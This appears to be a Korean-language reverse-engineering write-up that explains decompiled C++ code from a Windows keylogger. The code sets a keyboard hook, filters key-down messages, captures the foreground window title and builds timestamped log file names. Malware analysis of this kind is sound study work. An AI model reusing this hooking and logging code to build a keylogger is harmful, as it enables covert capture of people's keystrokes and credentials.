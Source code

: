 GetKeyState(VK_CAPITAL)를 사용해 키보드에 Caps_Lock이 걸려있는지 확인 후

GetLocalTime을 사용해 시스템의 시간을 불러와 [월, 일, 시, 분].txt 파일을 생성하기 위한 문자열을 저장 후 파일을 open 시킵니다.

```cpp
if ( !code )
  {
    if ( wParam == 256 || wParam == 260 )
      *(_QWORD *)&pKey.vkCode = lParam;
```

콜백함수인 KeyBoardProc의 매개변수 code, wParam을 확인하는 과정입니다.

code에 값이 있고 wParam이 WM_KEYDOWN 또는 WM_SYSKEYDOWN일 상태만 후킹을 진행합니다.

PKBDLLHOOKSTRUCT 구조체 변수인 pKey.vkCode에 lParam 값을 넣습니다.

```cpp
//Get ForegroundWindow Text
ForegroundWindow = GetForegroundWindow();
WindowsText = GetWindowTextA(ForegroundWindow, String, 1000);

//cotp Foreground Text
std::allocator<char>::allocator(&v20);
basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(copy_windowsText, String, &v20);
std::allocator<char>::~allocator(&v20);

//Key Input Time check
GetLocalTime(&SystemTime);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, "[");
to_string((std::__cxx11 *)v21, SystemTime.wMonth);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, v21);
basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v21);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, "_");
to_string((std::__cxx11 *)v22, SystemTime.wDay);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, v22);
basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v22);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, "_");
to_string((std::__cxx11 *)v23, SystemTime.wHour);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, v23);
basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v23);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, ":");
to_string((std::__cxx11 *)v24, SystemTime.wMinute);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, v24);
basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v24);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, ":");
to_string((std::__cxx11 *)v25, SystemTime.wSecond);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, v25);
basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v25);
basic_string<char,std::char_traits<char>,std::allocator<char>>::append(v13, "]");

```

GetForegroundWindows, GetWindowsTextA 함수를 사용해 사용자가 보고있는 화면의 캡션 정보를 가져옵니다.  또한 copy_windowText에 복사합니다.
